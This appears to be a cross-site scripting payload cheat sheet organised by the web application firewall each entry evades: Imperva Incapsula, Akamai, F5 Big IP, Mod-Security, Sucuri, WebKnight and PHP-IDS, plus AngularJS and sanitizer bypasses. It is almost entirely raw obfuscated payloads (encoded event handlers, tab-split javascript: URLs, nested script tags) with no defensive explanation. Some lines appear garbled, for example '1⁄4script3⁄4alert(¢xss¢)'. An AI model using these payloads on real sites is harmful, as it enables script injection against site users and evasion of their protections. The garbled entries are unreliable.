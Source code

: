 ```html
# Recursive filters
<scr<script>ipt>alert(1)</scr</script>ipt>

# Inject anchor tag
<a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pt:alert&lpar;1&rpar;">

# Bypass whitespaces
<svg·onload=alert(1)>

# Brutelogic
\\'-alert(1)//
</script><svg onload=alert(1)>
<x contenteditable onblur=alert(1)>lose focus!

# Imperva Incapsula
%3Cimg%2Fsrc%3D%22x%22%2Fonerror%3D%22prom%5Cu0070t%2526%2523x28%3B%2526%25 23x27%3B%2526%2523x58%3B%2526%2523x53%3B%2526%2523x53%3B%2526%2523x27%3B%25 26%2523x29%3B%22%3E
<img/src="x"/onerror="[JS-F**K Payload]">
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';><img/src=q onerror='new Function`al\\\\ert\\\\`1\\\\``'>

# WebKnight
<details ontoggle=alert(1)>
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">

# F5 Big IP
<body style="height:1000px" onwheel="[DATA]">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[DATA]">
<body style="height:1000px" onwheel="[JS-F**k Payload]">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[JS-F**k Payload]">
<body style="height:1000px" onwheel="prom%25%32%33%25%32%36x70;t(1)">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="prom%25%32%33%25%32%36x70;t(1)">

# PHP-IDS
<svg+onload=+"[DATA]"
<svg+onload=+"aler%25%37%34(1)"

# Mod-Security
<a href="j[785 bytes of (&NewLine;&Tab;)]avascript:alert(1);">XSS</a>
1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4
<b/%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35mouseover=alert(1)>

# Sucuri WAF
1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4

# Akamai
1%3C/script%3E%3Csvg/onload=prompt(document[domain])%3E
<SCr%00Ipt>confirm(1)</scR%00ipt>

# AngularJS
{{constructor.constructor(alert 1 )()}}

#html Sanitization Bypass
<00 foo="<a%20href="javascript:alert('XSS-Bypass')">XSS-CLick</00>--%20/

# Bypass ‘ ‘ ( ) 
<iframe/src=javascript:alert%26%23x000000028%3b%27hacked%27)>

# waf Bypass SVG
<svg><a xlink:href=?usemap=/*&#x26;#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;*/onmouseover=window.focus()//>Hover me</a></svg>
<Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>

```